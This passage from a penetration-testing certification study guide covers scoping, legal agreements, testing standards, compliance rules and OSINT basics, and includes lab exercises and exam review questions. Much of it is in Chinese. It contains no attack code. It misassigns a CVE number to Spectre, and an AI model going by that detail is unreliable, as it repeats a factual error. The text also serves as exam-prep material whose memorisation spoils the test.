

FIGURE 2.1 A logical dataflow diagram

User accounts and privileged accounts are both commonly part of penetration tests, and they can be some of the most important targets for penetration testers. That means determining which accounts are in scope and which aren't. For an unknown environment penetration tester, limitations on accounts can create challenges if you aren't allowed to use an account that you may be able to access. Of course, with a known environment test (and possibly with a partial knowledge test), you should have access to the accounts you need to perform the test.

Wireless and wired network scoping often comes into play for penetration testers who will conduct on‐site work or when the network itself is in scope. Thus it's important to know which SSIDs belong to your target and which are valid targets. At the same time, knowing which subnets or IP ranges are in scope is also key to avoid targeting third parties or otherwise going outside of the penetration test's scope.

Third‐party or cloud‐hosted environments can make all of this more difficult. Software as a service (SaaS) is typically shared with other customers, and you are unlikely to be permitted to conduct a penetration test against it on behalf of your client or employer. IaaS environments like Amazon Web Services (AWS), Microsoft Azure, and Google's cloud can all be critical infrastructure for organizations but may have specific rules or requirements for security testing.

Once you have determined what assets are in scope and out of scope, you will need to build lists or filters to ensure that you don't inadvertently target out‐of‐scope assets, systems, or other potential targets. That may include a list of IP addresses, hostnames, or other details. Targeting out‐of‐scope assets can result in significant issues, impact on business operations, or even contractual issues.

As you work through all the details for a scoping exercise, you should also make sure you have an in‐depth discussion about the target organization's risk acceptance and company policies. Are the organization and the sponsor ready and able to accept that a penetration test could cause an outage or service disruption? If not, is there a way to conduct the test in a way that will either minimize risk or prevent it? What is the organization's impact tolerance? Is a complete outage acceptable as part of the test? What if an account lockout happens? Is there a particular time of day or part of the business or recurring IT maintenance cycle when a test would be less disruptive? In addition to these specific business reasons, a complete scope review for a customer or organization is likely to include at least some discussion of business processes and practices that the tester may encounter. These could include administrative processes, account management, or any other business process that the tester might target or disrupt as part of their testing process. As a penetration tester, make sure that you discuss the potential for impact, and inquire about any processes that should be treated with care or avoided.

The amount of time and effort that you will spend on a penetration test can also be an important part of a scoping document. While some penetration tests are allowed to take as much time as they need, most will have some form of time or effort limitations. This can help with time management for the penetration testing team, since they will know how much time to spend on a given task or procedure.

Once you've created an initial scoping document, it should be reviewed with the client or sponsor of the engagement. Both sides need to review and accept the scope and should sign off on it. Questions from both sides should be documented, and the scope or other documentation should include that material if appropriate.

## Support Resources for Penetration Tests

Penetration testers can take advantage of internal documentation to help plan their testing (and unknown environment testers may manage to acquire this documentation during their work!). There are a multitude of possible documents that each organization may have, but documentation, accounts and access, and budget are all specifically described in the PenTest+ objectives.

### Documentation

The documentation that an organization creates and maintains to support its infrastructure and services can be incredibly useful to a penetration tester. These include the following:

*   Internal knowledgebase articles can provide details that penetration testers can use to discover systems and services and potentially to perform more informed attacks.

*   Architectural diagrams, dataflow diagrams, and other system and design documentation can provide penetration testers with an understanding of potential targets, how they communicate, and other configuration and design details.

*   Configuration files can be treasure troves of information and may contain details including accounts, IP addresses, and even passwords or API keys.

*   `Application programming interface (API)` documentation describes how software components communicate.

*   `Software development kits (SDKs)` also provide documentation, and organizations may either create their own SDKs or use commercial or open source SDKs. Understanding which SDKs are in use, and where, can help a penetration tester test applications and services.

*   Third‐party tool, system, and service documentation may also include examples like sample application requests, API examples, or other useful code that testers can use to validate or improve their own testing. This is particularly useful for penetration tests that are directed at web applications or APIs.

### Access and Accounts


# 已知环境评估

已知环境评估将提供对正在测试的系统的直接访问权限。这可能包括允许渗透测试人员绕过通常存在的防御措施。未知环境评估团队则没有这种便利，需要自行突破这些防御。已知环境测试的常见安全例外包括以下内容：

*   将测试人员添加到入侵防御系统（`IPSs`）、Web 应用防火墙（`WAFs`）和其他安全设备的白名单中。这样做将允许测试人员在不被阻止的情况下执行测试。对于已知环境测试，这意味着当安全措施检测到测试人员的努力时，测试人员不需要花费时间等待解除封锁。未知环境和红队测试更有可能导致测试人员被安全措施列入黑名单或阻止。

*   网络层的安全例外，例如允许测试人员绕过网络访问控制（`NACs`），这些控制通常会阻止未经授权的设备连接到网络。

*   绕过或禁用 `certificate pinning`。

*   访问用户帐户和特权帐户在渗透测试的成功中可以发挥重要作用。已知环境评估应使用适当的帐户进行，以使测试人员能够满足评估的完整范围。未知环境测试将要求测试人员获取凭据和访问权限。这意味着强大的安全模型可能会使某些期望的测试无法进行——在许多情况下这是一个好结果，但可能会使隐藏的问题暴露于内部威胁或更高级的威胁行为者之下。

*   对设施或系统的物理访问是渗透测试人员可以拥有的最强大的工具之一。在已知环境评估中，测试人员通常拥有对测试所需任何内容的完全访问权限。未知环境测试人员可能需要使用社会工程技术或本书稍后将讨论的其他方法来获取访问权限。

*   网络访问，无论是现场访问、通过 `VPN`，还是通过其他方法，也很重要，测试人员需要访问每个应评估的网络段或受保护区域。这意味着，以网络图的形式良好地查看网络以及跨越网络边界的手段通常对成功至关重要。

## 预算

技术考虑通常是渗透测试人员首先考虑的事情，但预算也是渗透测试业务流程的重要组成部分。确定预算并控制在预算内，可能决定业务是可行的还是失败的。

完成渗透测试所需的预算由范围和交互规则决定（或者，有时如果预算是限制因素，则反之亦然，从而确定作为评估的一部分可以合理完成的工作！）。对于内部渗透测试人员，预算可能仅涉及为团队分配时间以进行测试。对于外部或商业测试人员，预算通常从基于测试复杂性、团队规模以及与测试相关的任何成本（例如材料、保险或与人员时间无关的其他支出）的估计工时数开始。

# 渗透测试标准和方法论

从零开始构建渗透测试流程具有挑战性。幸运的是，已有多种渗透测试标准和指南编写完成，可以利用它们来构建您自己的方法论或实践。像 `MITRE` 的 `ATT&CK` 这样的框架可以帮助您思考攻击和方法论，而像开放 Web 应用安全项目（`OWASP`）测试方法论或渗透测试执行标准这样的标准则提供了流程和有用的技术。

`Pentest+` 考试大纲指向一些您应该了解的关键资源：

*   **`MITRE ATT&CK Framework`** `MITRE` 提供 `ATT&CK Framework`（代表对抗策略、技术和常见知识），这是一个关于对抗策略和技术的知识库。`ATT&CK` 矩阵包括从初始访问到执行、持久性、权限提升和数据外泄的完整威胁生命周期的详细描述、定义和示例。在每个级别，它都列出了技术和组件，使威胁评估建模能够利用通用描述和知识。

    `ATT&CK` 矩阵包括预攻击、企业矩阵（专注于 Windows、macOS、Linux 和云计算），以及 iOS 和 Android 移动平台。它还包括缓解措施、威胁行为者组、软件以及大量其他有用细节的详细信息。所有这些加在一起，使 `ATT&CK` 成为本书作者所知的最全面的免费可用的对抗技术、策略和相关信息数据库。然而，与 `PenTest+` 考试大纲涵盖的一些其他资源不同，`ATT&CK` 并不是一个完整的渗透测试标准或大纲。相反，它专注于策略和技术，这意味着对于寻找概念或实践的渗透测试人员来说，它比构建完整的渗透测试流程或计划更有用。

*   **`Open Web Application Security Project (OWASP)`** 开放 Web 应用安全项目（`OWASP`）为 Web 安全、移动安全和固件提供测试指南，以及关于如何使用其他测试方法论和标准的建议。`OWASP` 渗透测试相关资源的完整列表可以在此处找到：[`owasp.org/www-project-web-security-testing-guide/latest/3-The\_OWASP\_Testing\_Framework/1-Penetration\_Testing\_Methodologies`](https://owasp.org/www-project-web-security-testing-guide/latest/3-The_OWASP_Testing_Framework/1-Penetration_Testing_Methodologies)。

*   **`Penetration Testing Execution Standard (PTES)`** 渗透测试执行标准（`PTES`）涵盖了从前期交互（如范围界定和向客户提出的问题）到处理第三方等细节的各个方面。它还包括一整套渗透测试技术和概念，使其成为最完整和现代的公开可用渗透测试标准之一。您可以在此处找到完整的标准：[`www.pentest-standard.org/index.php/Main\_Page`](http://www.pentest-standard.org/index.php/Main_Page)。

*   **`Open Source Security Testing Methodology Manual (OSSTMM)`** 开源安全测试方法论手册（`OSSTMM`）是另一份广泛的渗透测试方法论指南，包含有关分析、指标、工作流程、人员安全、物理安全和无线安全的信息。不幸的是，自 2010 年以来它未再更新，导致更现代的技术和技术未包含在手册中。您可以在此处阅读完整手册：[`www.isecom.org/OSSTMM.3.pdf`](https://www.isecom.org/OSSTMM.3.pdf)。

*   **`National Institute of Standards and Technology (NIST)`** 美国国家标准与技术研究院（`NIST`）提供将渗透测试作为 `NIST` 特别出版物 `800‐115`（信息安全测试和评估技术指南）一部分的标准。您可以在此处找到完整文档：[`csrc.nist.gov/publications/detail/sp/800-115/final`](https://csrc.nist.gov/publications/detail/sp/800-115/final)，但值得注意的是，最后一次更新是在 2008 年。`NIST 800‐115` 继续影响安全测试方法论，但它不是一份现代文档。


# 信息系统安全评估框架（ISSAF）

最终标准之一是开放信息系统安全组（OSSIG）`信息系统安全评估框架`（`ISSAF`）。ISSAF 是一个高度详细的渗透测试框架，但存在过时的问题。ISSAF 的最后一次更新是在 2005 年，且 OSSIG 不再提供下载该标准的活跃链接。现代渗透测试人员应选择其他框架，同时了解该标准以应对 PenTest+ 考试。

许多组织和个人渗透测试人员选择结合多种标准和技术来构建自己的流程和程序。虽然你不需要深入了解每一种标准才能通过考试，但你应该确保至少浏览过一两种，以便了解其包含的内容、技术和流程的定义方式，并思考如果你要进行渗透测试或构建自己的流程，将如何使用它们。

# 渗透测试的关键法律概念

渗透测试人员除了了解渗透测试的技术和流程部分外，还需要了解其工作的法律背景和要求。在开始渗透测试之前，你需要知道并理解合同、工作说明书、保密协议，以及各州、国家或地方司法管辖区强制执行的法律和法律要求。

# 合同

许多渗透测试始于一份合同，该合同记录了渗透测试人员与委托其进行测试的客户或顾客之间的协议。有些渗透测试只使用一份合同，而另一些则使用 `工作说明书（SOW）`，这是一份定义工作目的、将执行哪些工作、将创建哪些交付物、工作完成的时间表、工作价格以及涵盖工作的任何其他条款和条件的文件。工作说明书的替代方案包括目标说明书（SOO）和绩效工作说明书（PWS），两者均由美国政府使用。

许多组织还会创建 `主服务协议（MSA）`，该协议定义了组织未来工作将使用的条款。这使得持续的项目和 SOW 更容易处理，因为 SOW 中引用了总体 MSA，从而无需重新谈判条款。当组织预计在一段时间内合作，或创建支持合同时，MSA 很常见。

此外，渗透测试人员通常被要求签署 `不披露协议（NDA）` 或 `保密协议（CA）`，这些是帮助强制执行双方之间保密关系的法律文件。NDA 保护关系中的一方或多方，通常概述各方、哪些信息应被视为机密信息、协议持续多久、何时以及如何可以披露信息，以及机密信息应如何处理。

在渗透测试期间，`服务级别协议（SLA）` 也可能发挥作用。服务级别协议设定了服务的期望，包括可用性、可靠性和服务质量等方面。虽然 SLA 最常与提供服务的供应商相关联，但渗透测试人员（pentester，penetration tester 的简称）可能需要在合同中提供带有指标的服务级别协议，或者可能需要在测试过程中了解第三方 SLA。

作为渗透测试人员，你还应了解 `不竞争协议`（有时称为不竞争条款或不竞争契约）。你不太可能有客户要求你签署此类协议，但你的雇主可能会要求！不竞争协议要求你同意不去竞争对手处工作，或在未来的工作中直接与你的雇主竞争，并且通常是时间有限的，包含一项条款，规定在设定的时间段内你不会从事同一领域的工作。不竞争协议通常用于限制竞争对手通过从你雇主处挖走你而获得竞争优势的机会，但它们也被用于限制员工的就业选择。

## 数据所有权和保留

渗透测试结束时，渗透测试人员通常会掌握大量关于测试目标的数据。这些数据可能包括敏感信息、内部文档、用户名、密码，当然还有包含发现列表的报告本身。测试后这些数据的所有权是一个重要考虑因素，应在每个项目的合同、MSA 或 SOW 中明确，明确谁拥有数据、如何存储和保护数据，以及项目完成后如何处理数据。

## 攻击许可（授权）

渗透测试还需要适当的攻击许可，即 `授权`。无论是由内部团队进行，还是作为双方之间合同的一部分，渗透测试都需要来自适当签署机构的签名。如果你正在进行内部渗透测试，请确保批准测试的人有权这样做。作为外部渗透测试人员，你可能无法轻易验证这一点，因此必须依赖合同。此时，合同中关于如果出现问题的免责条款非常重要。

### 第三方授权

许多渗透测试（特别是涉及复杂 IT 基础设施的测试）可能需要额外的授权。第三方通常用于托管系统，作为软件即服务、平台即服务或基础设施即服务的云提供商，或用于其他目的，完整的测试可能会影响这些提供商。因此，确定哪些第三方提供商或合作伙伴在范围内并获得授权非常重要。同时，你应该确保让你的客户和第三方都了解渗透测试可能带来的潜在影响。

## 环境差异和位置限制

适用于渗透测试和渗透测试人员的法律法规在世界各地（甚至在美国各州之间）各不相同。因此，你需要了解适用于你所从事工作的法律。

英国 1990 年的《计算机滥用法》（CMA）是渗透测试人员在进行测试前需要了解的国际法律类型的绝佳示例。CMA 对未经授权访问计算机程序或数据，或损害系统运行的个人规定了刑事处罚。它还涉及创建可用于这些违规行为的工具。虽然 CMA 主要针对恶意软件和其他恶意工具的创建者，但像 2018 年发布的 AutoSploit 自动化漏洞利用工具这样的漏洞利用工具，也可能受到此类针对“危险”软件的法律的约束。

在某些情况下，工具也可能受到出口限制的约束。美国禁止出口某些类型的软件和硬件，包括加密工具。如果你随身携带渗透测试工具包，或可能通过互联网传输工具，了解你持有的软件或硬件可能存在出口限制，可以帮助你避免麻烦。


# 法规遵从性注意事项

在审查当地和国家政府限制并了解涵盖渗透测试及相关活动的法律法规后，还应确保了解合同问题将在何处裁决。从法律角度来看，`venue` 是指任何法律行动将发生的地点，通常会在合同中明确说明。一般来说，venue 很可能是客户所在地，但大型组织可能会指定其总部或其他地点。管辖权，即法律对某一区域的权威，也很重要，因为适用于渗透测试人员和目标的法律可能不同。由于渗透测试人员经常跨州或跨国工作，必须了解每个地点适用的法律。

越来越多的地点也有隐私要求，在渗透测试过程中必须予以考虑。了解与您正在进行的渗透测试任务可能相关的信息处理的法律和政策限制，是您考虑的任何测试的重要步骤。

像 `HIPAA`、`FERPA`、`SOX`、`GLBA` 和欧盟的《通用数据保护条例》（`GDPR`）以及像 `PCI DSS` 这样的标准，都有受监管组织必须满足的合规要求。这意味着，基于合规性的评估可能会带来一套超出典型渗透测试或安全评估所涉及内容的特殊要求。

`PenTest+` 考试专门针对一组特定的法规和一个行业标准，但将两者都归纳在“法规遵从性”标题下。它们如下：

*   `Payment Card Industry Data Security Standard (PCI DSS)` 完成信用卡处理环境和系统评估的规则由合规性标准制定。`PCI DSS` 标准提供了合规性要求的示例，包括其对持卡人数据环境（`CDE`）渗透测试应包含内容的定义：整个外部面向公众的边界以及 LAN 到 LAN 的攻击表面。幸运的是，`PCI DSS` 还为渗透测试提供了具体指导，可在 [`https://www.pcisecuritystandards.org/documents/Penetration-Testing-Guidance-v1_1.pdf`](https://www.pcisecuritystandards.org/documents/Penetration-Testing-Guidance-v1_1.pdf) 查看。

*   `General Data Protection Regulation (GDPR)` `GDPR` 是欧盟（`EU`）的一项法规，用于保护数据和隐私。它具有广泛的国际影响，因为它还涵盖离开 `EU` 和欧洲经济区（`EEA`）的个人信息。`GDPR` 定义了数据主体的权利，包括以可理解的方式获取信息的权利、访问并了解个人信息如何被处理的权利，以及要求删除个人数据的权利。此外，个人还可以反对其数据被用于营销和销售等用途。控制者和处理者被要求使用和支持诸如假名化、记录处理活动、保护数据以及确保组织有专人负责数据保护（数据保护官）等功能。如果渗透测试人员在渗透测试过程中获取或访问数据，则需要了解 `GDPR` 的处理要求，并且在与受监管实体合作时可能会受到其他要求的约束。

尽管 `PenTest+` 考试大纲仅涵盖 `PCI DSS` 和 `GDPR`，但在基于合规性的测试中，您可能会被要求根据许多法律和标准进行评估。在美国，少数几项主要法律和标准推动了大量的渗透测试工作。`HIPAA`、`GLBA`、`SOX`、`PCI DSS` 和 `FIPS 140‐2` 都有可能推动评估的合规要求，因此您有必要高度了解它们。

`HIPAA`，即 1996 年《健康保险可携性和责任法案》，并不直接要求进行渗透测试或漏洞扫描。但是，它要求进行风险分析，而这一要求推动了对安全控制和实践的测试。`NIST` 也发布了关于实施 `HIPAA` 的指导（[`https://csrc.nist.gov/publications/detail/sp/800-66/rev-1/final`](https://csrc.nist.gov/publications/detail/sp/800-66/rev-1/final）），其中建议将渗透测试作为评估过程的一部分。因此，受 `HIPAA` 约束的实体很可能会将渗透测试作为其常规持续评估流程的一部分。

`GLBA`，即《格拉姆-里奇-布莱利法案》，规范金融机构如何处理个人的个人信息。它要求公司制定书面信息安全计划，描述旨在保护该信息的流程和程序，受监管实体还必须测试和监控其努力。渗透测试可能是（并且经常是）该测试方法的一部分，因为 `GLBA` 要求金融机构防止“合理预见的威胁”——当您正在积极进行渗透测试时，这更容易实现。

`SOX`，即《萨班斯-奥克斯利法案》，是一项美国联邦法律，为美国上市公司董事会、管理层和会计师事务所设定了标准。`SOX` 为与政策、标准、访问和身份验证、网络安全以及各种其他要求相关的控制设定了标准。`SOX` 的一个关键要素是每年要求评估控制和程序，从而可能推动对渗透测试的需求。

`FIPS 140‐2` 是一项美国政府计算机安全标准，用于批准加密模块。这些模块随后根据 `FIPS 140‐2` 进行认证，并可根据该认证及其使用中遵循的实践进行评估。`FIPS 140‐2` 的详细信息可在此处找到：

[`https://csrc.nist.gov/publications/detail/fips/140/2/final`](https://csrc.nist.gov/publications/detail/fips/140/2/final)

您还应了解，`FIPS 140‐3` 已获批准，并将于 2021 年 9 月取代 `FIPS 140‐2`。

还有许多其他标准和法规可能适用于组织，这使得基于合规性的评估成为渗透测试工作的常见驱动因素。在准备执行渗透测试时，请务必了解您的客户或组织所处的合规环境，以及该环境如何影响测试的范围、要求、方法和输出。

## 摘要

规划和界定渗透测试范围是大多数渗透测试任务的第一步。了解为何要规划渗透测试以及最终报告的目标受众是谁非常重要。在此过程中，您将定义和记录任务规则、将使用的评估类型和评估策略，以及范围内和范围外的内容。

界定评估范围既规定了可以测试的目标，也规定了不可以测试的目标，以及应遵守的任何特殊限制，例如一天中的时间、业务影响考虑因素或目标组织已实施的防御措施。界定范围还涉及组织对渗透测试潜在影响的风险接受度和容忍度，因为所有测试都有可能导致中断或其他服务问题。

渗透测试人员还需要了解渗透测试的法律和合同方面。合同或协议是大多数第三方渗透测试的重要组成部分，而内部渗透测试人员通常会确保从组织中适当人员处获得适当的签署。主服务协议、`SOWs` 和保密协议都是渗透测试人员启动任务路径上的常见部分。


渗透测试人员可以使用 PTES 或 OSSTM 等标准，以及来自 OWASP、NIST 和 MITRE ATT&CK 框架的信息，来设计、构建和增强其渗透测试流程。

通常还存在外部法律和合规要求以及目标组织的内部政策。法律、法规和行业标准都是渗透测试人员必须应对的环境的一部分。在美国，HIPAA、SOX 和 GLBA 等法律都推动组织将渗透测试作为合规工作的一部分。同样重要的是，HIPAA 等法规严格禁止访问受保护的健康信息（PHI），即使在渗透测试过程中也是如此。PCI DSS 等行业标准和 FIPS 140‐2 等政府标准也有组织必须满足的具体要求，渗透测试人员可能会被要求将其纳入测试范围，或作为测试的一部分专门处理。

## Exam Essentials

### 能够解释规划和范围界定的重要性

规划渗透测试需要了解进行测试的原因以及结案报告的目标受众是谁。在规划渗透测试期间，重要元素包括参与规则、通信和紧急升级计划、保密性和资源可用性等要求、评估的总体预算以及存在的任何技术或业务约束。参与规则是这一规划中最关键的部分之一，通常包括范围：可以测试和不可以测试的内容。

### 能够应用适当的标准和方法论

公开可用的渗透测试标准，如开放源代码安全测试方法论手册（OSSTM）、渗透测试执行标准（PTES）和信息系统安全评估框架（ISSAF），可以作为渗透测试实践的坚实基础。开放 Web 应用程序安全项目（OWASP）提供的 Web 和应用程序特定测试方法论和技术，或 MITRE ATT&CK 框架提供的技术和方法映射等专业知识，为渗透测试人员提供了更多工具来构建更好的测试技术和流程。最后，NIST 800‐115 和其他标准设定了测试应包含的内容的期望。

### 了解参与规则的重要性以及如何验证参与范围

渗透测试准备的关键部分是设定参与规则。渗透测试人员需要确定测试是已知环境、部分已知环境还是未知环境。他们还必须确定是否有特定的时间段或日期、系统或环境，或其他应考虑在范围内的限制。测试人员还需要处理合同细节以及如何管理自己的时间，以确保以有效的方式满足要求。

### 了解目标选择以及哪些资产可能被视为在范围内

目标选择决定了完成评估所需的工作量、评估的复杂程度，以及是否需要第三方参与或权限来测试非渗透测试目标直接拥有的系统。在已知环境评估中，目标选择通常简单得多。未知环境评估会使目标选择变得更加困难，应仔细界定和定义范围，以确保只测试合法目标。

### 了解与渗透测试相关的关键法律概念

渗透测试人员需要了解法律概念，例如定义组织之间参与总体合同的主服务协议、定义这些参与交付成果的工作说明书，以及保护渗透测试中涉及的数据和信息的保密协议。您还必须了解您和目标所处的法律和监管环境，以便您的测试流程和工具是合法的。最后，确保已签署适当的法律协议并获得适当签署机构的批准至关重要，以便在出现问题时您受到保护。

### 能够解释在进行基于合规性的评估时可能遇到的问题、目标和注意事项

合规性（以法律、法规和行业标准的形式）推动了许多渗透测试。了解 GDPR 等法规（您可能需要在测试过程中满足其特定要求）将帮助您更好地完成合规性评估。PCI DSS 等要求信用卡商家合规的标准提供了明确定义的目标，但也有特定规则，可能会影响您进行评估的方式以及整体测试的参与规则。

## Lab Exercises

1. 描述 GDPR 中的关键数据隐私和数据保护要求。

2. 解释您为何会推荐已知环境、部分知识或未知环境评估。在什么情况下每种评估更可取，为什么？

3. 解释在与渗透测试相关的法律协议中，SLA、NDA、MSA 和 SOW 分别是什么，以及您可能在何处使用每一种。

4. 选择您熟悉的系统、网络或应用程序。为其绘制架构图，确保标记每个数据流、系统、网络组件或架构特征。

5. 使用您在 #4 中创建的图表，如果您要对系统或应用程序进行已知环境渗透测试，请列出您会请求的支持资源。

6. 使用步骤 4 和 5 中创建的信息，为与系统或应用程序相关的资产、系统、网络和其他组件构建一个在范围内列表和一个不在范围内列表。为什么要包含某些元素，为什么可能会建议排除某些元素？

## Review Questions

答案可在附录中找到。

1. 哪个术语描述了基于现有合同创建的、用于定义项目特定活动、交付成果和时间表的文档？

    1. NDA

    2. MSA

    3. SOW

    4. MOD

2. Maria 想要为她的组织构建渗透测试流程，并打算从现有的标准或方法论开始。以下哪项不适合该目的？

    1. ISSAF

    2. OSSTM

    3. PTES

    4. ATT&CK

3. 以下哪种类型的渗透测试会为测试人员提供对 Web 服务器配置的完整可见性，而无需攻破服务器即可获取该信息？

    1. 未知环境

    2. 部分知识

    3. 已知环境

    4. 零知识

4. 以下哪种类型的法律协议通常涵盖渗透测试人员在进行评估时可能遇到的敏感数据和信息？

    1. 竞业禁止协议

    2. NDA

    3. 数据安全协议

    4. DSA

5. 在渗透测试范围讨论期间，Charles 被要求测试组织的基于 SaaS 的电子邮件系统。他应该提出什么问题？

    1. 基于云的系统需要更多时间和精力。

    2. 由于云托管环境的规模，确定范围将很困难。

    3. 云服务提供商通常不允许测试其服务。

    4. 测试云服务是非法的。

6. 在渗透测试期间，Alex 发现他无法扫描一天前从同一 IP 地址成功扫描过的服务器。最可能发生了什么？

    1. 他的 IP 地址被列入白名单。

    2. 服务器崩溃了。

    3. 网络宕机。


4.  他的 IP 地址已被列入黑名单。

7.  MSA 通常包括哪些内容？

    1.  将管辖未来协议的条款

    2.  评估期间的相互支持

    3.  微服务架构

    4.  可接受的最低服务级别

8.  在进行现场渗透测试时，Cassandra 将她的笔记本电脑插入一个可访问的网络端口。然而，当她尝试连接时，她没有收到 IP 地址，也没有网络连接。她知道该端口之前工作正常。她的目标最可能部署了什么技术？

    1.  端口白名单

    2.  端口黑名单

    3.  NAC

    4.  802.15

9.  哪种类型的渗透测试不是旨在识别尽可能多的漏洞，而是专注于与获得特定系统或数据控制权的目标相一致的漏洞？

    1.  基于目标的评估

    2.  基于合规性的评估

    3.  黑队评估

    4.  红队评估

10.  在现场渗透测试期间，在共享建筑物中进行无线评估时，哪个范围界定元素至关重要？

     1.  加密类型

     2.  无线频率

     3.  SSIDs

     4.  预共享密钥

11.  Ruchika 被要求对一家仅在正常白天班次运营的中型公司的内部业务系统进行渗透测试。测试将针对关键业务系统进行。哪种限制最可能适用于测试？

     1.  一天中的时间

     2.  允许的测试类型

     3.  禁止的测试类型

     4.  可测试的物理位置

12.  在专门针对单个 Web 应用程序范围的渗透测试中，Chris 发现 Web 服务器还包含目标位置其他服务器的密码列表。在通知客户后，客户要求他使用这些密码来验证那些服务器，他便继续针对其他服务器测试这些密码。发生了什么？

     1.  违法行为

     2.  已知环境测试

     3.  范围蔓延

     4.  目标收缩

13.  Lucas 受雇对一家处理信用卡的组织进行渗透测试。他的工作将遵循 PCI DSS 的建议。Lucas 正在进行哪种类型的评估？

     1.  基于目标的评估

     2.  红队评估

     3.  黑队评估

     4.  基于合规性的评估

14.  Greg 要求客户签署的渗透测试协议文件中包含一项声明，即评估仅在发生时有效。他为什么要包含这种语言？

     1.  他的测试可能会造成更改。

     2.  未来的环境不太可能相同。

     3.  攻击者可能会使用相同的缺陷来更改环境。

     4.  测试不会完全全面。

15.  Ian 正在为一家公司进行渗透测试，该公司对其安全系统使用有线网络，并且不将其连接到无线网络。如果 Ian 正在进行部分知识渗透测试，他应该注意哪些环境因素？

     1.  他需要知道安全网络正在使用的 IP 范围。

     2.  他需要知道任何无线网络的 SSID。

     3.  可能需要物理访问网络。

     4.  可能需要物理访问附近的建筑物。

16.  Megan 想要从向应用程序提供数据的服务中收集数据。她应该从应用程序的供应商那里寻找哪种类型的文档？

     1.  数据库凭据

     2.  系统密码

     3.  API 文档

     4.  网络配置设置

17.  Charles 已完成其渗透测试的范围界定练习，并与客户签署了协议。预期谁的签名作为对方签名？

     1.  信息安全官

     2.  项目发起人

     3.  适当的签署权限

     4.  行政助理

18.  Elaine 想要确保她的红队渗透测试的局限性得到充分解释。以下哪些是她协议中有效的免责声明？（选择两项。）

     1.  风险承受度

     2.  时间点

     3.  全面性

     4.  影响承受度

19.  Jen 想要进行渗透测试并包括移动应用程序测试。哪种标准或方法论最可能对她的工作有用？

     1.  NIST

     2.  OWASP

     3.  KALI

     4.  ISSAF

20.  哪种类型的评估最接近模拟实际攻击者的努力？

     1.  采用零知识策略的红队评估

     2.  采用全知识策略的基于目标的评估

     3.  采用全知识策略的红队评估

     4.  采用零知识策略的基于合规性的评估

WileyPRE

# 第 3 章

信息收集

CompTIA PenTest+ 认证考试目标中的信息收集和漏洞扫描领域涵盖了信息收集和漏洞扫描，以及如何分析和利用漏洞扫描信息。在本章中，您将探讨如何使用被动开源情报（OSINT）以及主动枚举和扫描方法来收集有关组织的信息。我们还将探讨其他重要技术，包括用于信息收集的防御检测、数据包构建、捕获和检查，以及代码分析在情报收集和相关技术中的作用。

## 足迹分析和枚举

许多渗透测试的第一步是通过被动情报收集方法收集有关组织的信息。被动方法是指那些不主动接触目标组织的系统、技术、防御、人员或位置的方法。通过此过程收集的信息通常称为 `OSINT`，即 `开源情报`。除其他可收集的数据外，OSINT 常用于确定组织的足迹：组织拥有的所有系统、网络和其他技术的列表。当然，如果您正在进行已知环境测试，您可能已经拥有目标组织提供的文档中的所有这些信息。

### OSINT

OSINT 包括来自公开可用来源的数据，例如 DNS 注册机构、Web 搜索、以安全为中心的搜索引擎，如 `Shodan` 和 `Censys`，以及大量其他信息来源。它还包括超出以技术为中心的组织信息的信息。社交媒体、企业税务申报、公开信息，甚至组织网站上招聘信息中的信息都可以成为开源情报收集的一部分。

OSINT 收集过程的目标是获取进行有效渗透测试所需的信息。由于测试的范围和资源各不相同，每个项目都会构建所需信息的列表。这并不意味着您不能使用标准化列表，但这意味着您需要考虑项目类型、您可用的信息以及您需要有效了解目标的信息。OSINT 收集可能会在整个项目过程中继续，因为您会发现想要获取的其他信息，或者如果您发现需要进行更多研究的其他范围内的项目。

另一种开源情报是关于漏洞和其他安全缺陷的信息，包括常见漏洞和披露（`CVE`）和常见弱点枚举（`CWE`）等资源。

#### CVE 和 CWE


The MITRE Corporation is a U.S. not‐for‐profit corporation that performs federally funded research and development. Among the tools it has developed or maintains are a number of classification schemes useful to penetration testers:

*   The `Common Vulnerabilities and Exposures (CVE)` list identifies vulnerabilities by name, number, and description. This makes the job of a penetration tester easier, because vendors, exploit developers, and others can use a common scheme to refer to vulnerabilities. A CVE listing will be in the format `CVE‐[YEAR]‐[NUMBER]`. For example, the 2017 Meltdown bug was assigned `CVE‐2017‐5754`, and Spectre is covered by `CVE‐2017‐5754` and `CVE‐2017‐5715`. You can read more at [`https://cve.mitre.org`](https://cve.mitre.org).

*   The `Common Weakness Enumeration (CWE)` is another community‐developed list. CWE tackles a broad range of software weaknesses and breaks them down by research concepts, development concepts, and architectural concepts. You can read more about CWE at [`https://cwe.mitre.org`](https://cwe.mitre.org).

### Location and Organizational Data

Although penetration testers may be tempted to simply look at the networks and systems that an organization uses as targets, some penetration tests require on‐site testing. That may take the form of social engineering engagements or in‐person security control testing, wireless or wired network penetration, or even dumpster diving to see what type of paper records and other information the tester can recover. Each of those activities means that a tester may need to know more about the physical locations and defenses that a target has in place.

Testers will typically start by working to understand what buildings and property the target organization uses. An unknown environment test can make this harder, but public records can help by providing ownership and tax records. These records provide contact persons, whose details could help later. Additional physical location information that a tester will look for usually includes the physical security design, including locations of cameras, entrances and exits, guards, fences, and other physical security controls like badges or entry access systems.

